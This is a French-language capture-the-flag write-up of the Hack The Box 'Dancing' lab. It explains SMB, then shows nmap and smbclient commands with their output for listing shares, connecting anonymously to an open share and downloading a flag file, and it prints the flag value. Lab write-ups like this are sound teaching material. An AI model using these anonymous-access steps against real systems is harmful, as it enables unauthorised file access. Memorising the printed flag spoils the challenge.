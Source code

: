 ```yaml
---
title: Starting Point Dancing - Hack the Box 
date: 2025-02-25
tags: [HackTheBox, SMB, VeryEasy]
categories: writeups
keywords: 'SMB Hack the box'
description: découverte du protocol SMB (server message block pour le partage de fichiers)
cover: images/writeups/Dancing/image.png
top_img: /images/cyberpunk-red.jpg
toc: true
toc_number: true
---
```


### Introduction
Le **protocole SMB (Server Message Block)** est un **protocole de communication client-serveur** principalement utilisé pour le **partage de fichiers** et d'autres ressources sur un réseau. Il permet aux applications de lire et d'écrire dans des fichiers et de demander des services auprès de programmes serveurs, notamment sur des systèmes d'exploitation Windows. SMB est aussi utilisé pour accéder à des ressources partagées comme des **systèmes de fichiers**, **imprimantes**, **ports série**, et plus encore.

#### Vue d'ensemble du protocole SMB
Le protocole SMB permet de **partager des fichiers** entre des machines, ce qui le rend utile pour accéder à des fichiers et répertoires sur des ordinateurs connectés en réseau. Il fonctionne principalement sur le **port TCP 445** pour la communication sécurisée. Les anciennes versions de SMB (comme SMBv1) pouvaient également utiliser le port 139.

### Résultats du scan Nmap
Pour commencer, un scan **Nmap** a été effectué sur le **port 445** de l'adresse IP cible **10.129.41.30** afin de détecter la disponibilité du service SMB.

```bash
┌──(jolan㉿jolan)-[~]
└─$ nmap -p 445 -Pn -sV 10.129.41.30
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 09:39 CET
Nmap scan report for 10.129.41.30
Host is up.

PORT    STATE    SERVICE      VERSION
445/tcp filtered microsoft-ds

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.29 seconds
```

Le résultat montre que le port **445** est **filtré**, ce qui signifie que le service SMB est probablement présent, mais il est peut-être protégé par un pare-feu ou d'autres mesures de sécurité.

### Liste des Partages SMB Disponibles
Ensuite, l'outil **smbclient** a été utilisé pour lister les partages disponibles sur la machine cible **10.129.41.30**.

```bash
┌──(jolan㉿jolan)-[~]
└─$ smbclient -L 10.129.41.30
Password for [WORKGROUP\jolan]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.41.30 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Plusieurs partages SMB sont disponibles :

- **ADMIN$** : Partage administratif, généralement utilisé pour l'administration à distance.
- **C$** : Partage par défaut du disque C:.
- **IPC$** : Partage de communication inter-processus utilisé pour la communication entre processus.
- **WorkShares** : Partage défini par l'utilisateur.

### Connexion aux Partages SMB
Pour accéder au partage **WorkShares**, la commande suivante a été utilisée avec un mot de passe vide (`-N`), ce qui signifie une connexion sans mot de passe :

```bash
smbclient //10.129.41.30/WorkShares -N
```

Cela a permis de se connecter avec succès au partage sans nécessiter de mot de passe.

### Navigation dans le Répertoire WorkShares
Une fois dans le répertoire **WorkShares**, la commande `ls` a été utilisée pour lister le contenu :

```bash
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1753896 blocks available
```

Le répertoire **James.P** a été trouvé, et après y être allé, le fichier suivant a été découvert :

```bash
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1753896 blocks available
```

Le fichier **flag.txt** semble contenir un indice ou un drapeau.

### Téléchargement du Flag
La commande `get` a été utilisée pour télécharger le fichier **flag.txt** sur la machine locale :

```bash
smb: \James.P\> get flag.txt /home/jolan/Bureau/flag.txt
getting file \James.P\flag.txt of size 32 as /home/jolan/Bureau/flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Le fichier **flag.txt** a été téléchargé avec succès, et son contenu a été récupéré.

#### Contenu du Flag
Le contenu du **flag.txt** est :

```
5f61c10dffbc77a704d76016a22f1664
```

### Conclusion
Grâce à l'utilisation des outils **Nmap**, **smbclient** et de la navigation dans les répertoires, le protocole SMB a été exploité pour accéder aux ressources partagées, et un flag a été récupéré dans le répertoire **James.P**. Cela met en évidence l'importance de sécuriser les partages SMB pour éviter tout accès non autorisé aux ressources sensibles.